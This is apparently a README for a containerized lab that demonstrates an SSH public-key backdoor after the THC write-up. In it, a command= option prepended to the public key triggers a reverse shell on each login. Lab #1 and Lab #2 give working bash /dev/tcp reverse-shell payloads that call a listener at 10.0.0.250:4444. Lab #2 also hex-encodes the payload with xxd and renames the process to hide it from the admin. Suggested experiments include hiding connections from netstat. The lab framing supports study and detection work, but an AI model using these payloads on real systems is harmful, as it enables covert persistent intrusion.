


# Demo: SSH Public Key Backdoor

In late May 2023, an article was posted on The Hacker's Choice web site, describing who to leverage a legitimate SSH client feature so that the SSH client would trigger a reverse shell backdoor each time the client connected to a machine using key-based authentication.  This demo uses a simplified version of that backdoor, and attempts to explain how it is accomplished.

## Disclaimers

* While credit is given to THC for the attack, the capability has been around for more than a decade.  See the "authorized_keys Format" section (page 124) of the book "SSH Mastery - Second Edition" by Michael W Lucas.  What THC did was develop an approach that can hide things so that the SSH user (our admin) doesn't notice certain activities occurring as part of the login process.
* Page numbers used in references to the book "SSH Mastery" may be inaccurate.  This is because I was one of the tech reviewers of the document and have a pre-publication copy of the document.  Your mileage will vary.

## Why it's possible

This attack is exploitation of a feature, not a bug. Both the SSH server and the client has the ability to execute an external program as part of the authentication process or immediately after login. On the server, this is configured generally (for all accounts) via /etc/sshrc or /usr/local/etc/ssh/sshrc. For more tailored (focusing on a single-user's login), this is accomplished by configuring ~/.ssh/rc.

A similar capability exists in the client, where the "commmand" feature can be called as part of the public key authentication process.  This worksheet focuses on this capability.  The "command" command can be used for good (see the "SSH Mastery" book) or for evil (as described in this worksheet).

## Why it works

This approach is successful primarily because of the ignorance or laziness of users and administrators.  in short:

* Very few people look at the content of their keyfiles
* Very few people pay attention their running processes.  We can improve this by renaming processes and hiding things in subprocessses.
* Very few people pay attention to their outbound connections (I wonder how developement of opensnitch has come.  Something to check.)
* As noted in "SSH Mastery", the command embedded in the public key will override any command requested as part of the SSH call. In other words, if a user runs "ssh bob@remote_machine.com ifconfig", the "ifconfig" command will be ignored in favor of any command that is embedded in the public key.  The good news is that the orginal command gets stored in the $SSH_ORIGINAL_COMMAND environment variable.

## Assumptions

* Since adding a backdoor tends to be a post-exploit process, it is assumed that you already have compromised the system administrator's workstation.
* To complete this lab, you must have some familiarity with: editing text files with vim and use of the SSH command line tool.
* It is assumed that xxd exists on the remote machines.  In some distributions, this is installed by default.  If it's not on your target machines, you may have to develop an approach using other encoding/decoding tools (baseenc, base32, base64, etc.).  Such is outside of the scope of this worksheet.
* This demo uses containers based on the Ubuntu 22.04 Docker image, connected in a simple network architecture provided by OpenVirtualSwitch (OVS).  Scripts ('build' and 'destroy') have been created to allow you to avoid having to learn the syntax.  That said, installing Docker and OVS is your responsibility (even though it's just "apt-get install -y ....").

## Steps: Setting up the demo environment

1) If you don't already have git, Docker, and OVS installed, install them.

2) Download the demo via:
   ```c
   git clone https://github.com/packetgeek/ssh_public_key_backdoor
   ```
3) cd into the new folder
   ```c
   cd ssh_public_key_backdoor
   ```

5) Run the following to cause Docker to build the images for the desk and the SSH nodes
   ```c
   ./build-images
   ```

6) Then run the following to deploy the environment.
   ```c
   ./build
   ```

   If you need to reset the environment, you can run:

   ```
   ./destroy
   ./build
   ```

7) Point a HTML5-capabile browser at: http://127.0.0.1:6801/vnc.html

   This should bring up the default NoVNC screen.

8) Click on the "Connect" button.  This should bring up the desktop.

   If you see a pop-up which states that the Power Manager Plugin unexpectedly left the panel, click on "Remove".  Explanation: because the desktop is in a container, I removed the power manager from the build.

9) Click on the terminal icon at the bottom of the screen to open a terminal window.

10) At the top of the terminal window is a menu item called "Terminal".  Click on that and select "Set Title".  This will open a popup. Type "ADMIN" (in caps, without the quotes) into the window and press Enter. The window title should now be "ADMIN".

11) In the ADMIN window, type "ssh admin@10.0.0.1" and press enter.  You should get a response that looks like:

    ```c
    root@badguy:~# ssh admin@10.0.0.1
    The authenticity of host '10.0.0.1 (10.0.0.1)' can't be established.
    ED25519 key fingerprint is SHA256:URT//gbDn9lJTzH0Iq4FYGL+JuMgLvRfQl8J5MDWHiY.
    This key is not known by any other names
    Are you sure you want to continue connecting (yes/no/[fingerprint])?
    ```

    Type the word "yes" and press enter.  You'll be prompted for a password, which is "admin" (without the quotes).

    The prompt in the ADMIN window should now be "admin@admin:~$".  You're now logged onto the admin workstation.

12) Back on the desktop, click on the terminal icon window agatn to open another terminal.  Change the window's title to "Bad Guy".  Inside of the terminal, type "nc -lvp 4444" and press enter.  This sets up a netcat-based listener, in a terminal window entitled "Terminal - root@badguy:~".

13) In the ADMIN window, run the following command and press enter whenever it asks for input.

    ```c
    ssh-keygen -t rsa
    ```

    By running the above, you've created a SSH key-pair.  As part of the exploit, you'll need to moodify the public key.  Run one of the following to edit it.  If you know how to use Vim, run:

    ```c
    vi .ssh/id_rsa.pub
    ```

    The default public key should look something like:

    ```c
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDC6Gg217cfgYE6bN4kDXyk9ffwZ1Yz9E5JtKItDvoGwH
    bHxoyNVj4xUfQnXi8JCn4w27zopHn6F27Yz5y0vGNQMg0LNdamsLAmq3t1O/YgZf9158UKLewSXfZN28MC
    eTsl3bdEN7Ahk0B2JMknJhCN7pyw0JtF7/pV3+sEUnEEw5bgaTv7UlaI9A9uX7JA7quBQ6T15/w3lPAVXS
    wFU3aTINWOBxqQ1X1B8sw8UzbhVfzAW1DFwGy6lQ7JYhoHzZAi1n1eejqxBQusp6y599jiJulaarP7fEYo
    0nJbWGaSUnZQxZ30S0ehtplGk3DULEY8TxM5slw3rSpWkMgiW+WbEWr9RJh2hipqNpwcBpb8BOUyaWjls6
    Xz2Kf5MOsQ3m0G43mMbLUVp66OWHofxLJvMj5uTM1IGuUvGngLsPu+cEMpEFYtmEFwkikNYNYurB9bQ+oT
    72+G2O0pA+QUmBvrfn3EX4zgM7K52ay8fuLCPh+BYUhuhfJG888MnZsR9Qs= admin@admin
    ```

    Note that the key has three parts: the algorithm, the key itself, and a comment (often the account used to generate the key). The key can end with "=" or "==" as padding to make it a standardized length. Hint: it's base64 encoded to make it easier to handle (uses printable characters).

    Your desktop should now look like the below.

    

Following are a few mini-labs that demonstrate how to add payloads to the public key.

## Lab #1 - Just calling home

1) If you haven't already done it, connect to the admin workstation, geneerate the SSH RSA keypair, and open the public key in your text editor.
   ```c
   vi ~/.ssh/id_rsa.pub
   ```

2) Just before the "ssh-rsa" add the following and leave a space between the last character and "ssh-rsa":
   ```c
   command="eval $(bash -i >& /dev/tcp/10.0.0.250/4444 0>&1 & bash -i)" ssh-rsa...
   ```
   Do not modify anything after the "ssh-rsa".  The first line of the public key should now look something like:

3) Save the changes and exit the text editor.  You should now be back at the command prompt on the ADMIN machine.

4) Copy the public key to 10.0.0.2 (the server) by running the following:

   ```c
   ssh-copy-id admin@10.0.0.2
   ```

   When you receive the "Are you sure...?" prompt, type "yes" (without the quotes) and press the Enter key.

   When asked for the password, type "admin" and press the Enter key.

   What this does is simulate what a system administrator would do to set up key-based authentication between their workstation and one or more servers that they'll want to manage.  In short, the "ssh-copy-id" command installs the public key on the new machine.

5) Connect to the server by running the following.  When you press enter, pay attention to the "BAD GUY" window.

   ```c
   ssh admin@10.0.0.2
   ```

   In the "ADMIN" window, you should notice that the prompt has changed to "admin@SERVER".  This means that you've connected to the "SERVER" machine.

   In the "BAD GUY" window, you should see that a connection was made back to your "bad guy machine".  Now, anything that you type in the "BAD GUY" window will be executed on the SERVER.  You can't really do mcuh with this connection but it demonstrates that a connection can be made.

If you experiment, you'll notice that there's a number of problems with the connections that need correction. One of these is that the connections are "crashy".  Another is that the real admin cannot do much. (Hint: there's others...)

6) In the terminal that's not in your browser, reset the lab by running the following:

   ```c
   ./destroy
   ./build
   ```

## Lab #2 - Hiding things

As the bad guy, you'll want to make things a bit more interesting by hiding (from the real admin) that you're connected to the SERVER.  This can be accomplished by using the xxd command to encode your command string.

One of xxd capabilities is that it can encode it's input so that it's output is "mail-safe", in that  the ouput is made up of nothing but readable ASCII characters.  This is done via the "-ps" switch.  The process can be reversed with the "-r" switch.

A side effect of using xxd is that you get the ability to use multi-line commands in your payload, instead of having to build your command to run on one line.

To practice using xxd, try:

1) Run the following:

   ```c
   echo "Hello world!" | xxd -ps
   ```

   The output should look something like:

   ```c
   48656c6c6f20576f726c64210a
   ```

3) Copy the above output and run the following:

   ```c
   echo "48656c6c6f20576f726c64210a" | xxd -r -ps
   ```

   You should see the original "Hello world!" string.

For multi-line payloads, write your scripts into a text file, then cat it and pipe that output to "xxd -ps".

Following is a simple 2-line payload that you can add to the public_key.

1) Reset the lab.

2) Open two terminal windows.  Name one "ADMIN" and the other "BAD GUY".

3) In the BAD GUY window, run:

   ```c
   nc -lvnp 4444
   ```

4) In the ADMIN window, ssh to 10.0.0.1 and create a RSA keypair for SSH.

5) In the ADMIN window, create a file called temp.txt so that it contains:

   ```c
   bash -c "/bin/bash -i >& /dev/tcp/10.0.0.250/4444 0>&1" >/dev/null 2>/dev/null &
   exec -a -$(basename /bin/bash) /bin/bash
   ```

6) Run the following to encode the above.

   ```c
   cat temp.txt | xxd -ps | tr -d '\n' 2>/dev/null;echo ''
   ```

   In the above:

   - "cat temp.txt | xxd -ps" encodes the content of the temp.txt file
   - "tr -d '\\n'" removes the return characters in the output of the above
   - "2>/dev/null;echo ''" redirects multiple prompts to /dev/null and adds a new line to the output

   For the above, the second and third lines are optional, if you don't mind manually making the payload a single line.

7) Copy the output from the above into .ssh/id_rsa.pub so that it looks something lile:

   

   In the above, you're:
   * pre-pending  'command="eval $(echo '  to the beginning of the payload
   * appending '|xxd -ps -r);" '  to the end of the payload
   * and prepending the payload construct to the front of the public key content.

8) Now pretend to be the actual admin, who's adding a key to a new server.  Do this by running:

   ```c
   ssh-copy-id admin@10.0.0.2
   ```

9) In the BAD GUY window, make sure that the listener is still running and, in the ADMIN window, ssh to the new server via:

   ```c
   ssh admin@10.0.0.2
   ```

   Did you notice that the prompt in the BAD GUY window changed?


## Suggestions for experimentation

The above is syntax sensitive and a bit crashy but it's just a POC. Much can be improved by experimentation.  Things to try:

- push the connection into a sub-process (see links in Sources)
- come up with a way to hide the connection from netstat
- fix the script on the THC page
- use Metasploit listeners and payloads
- write Falco signatures to detect the TTP
- if containers are involved, configure gVisor to prevent this TTP
- if a system's public keys are managed via an authentiction server like Keycloak or FreeIPA, try embedding the attack in the stored key
- create a tunnel/reverse tunnel so that you can access everything in the new target's network segment (see "sshuttle" or page 133 of "SSH Mastery")

## Sources

* Book: "SSH Mastery" by Michael W. Lucas, published 2012
* Blog: "[Infecting SSH Public Keys with backdoors](https://blog.thc.org/infecting-ssh-public-keys-with-backdoors)", 24 May 2023
* Blog: "[Public Key Cryptography: RSA Keys](https://www.thedigitalcatonline.com/blog/2018/04/25/rsa-keys/)", 23 January 2022
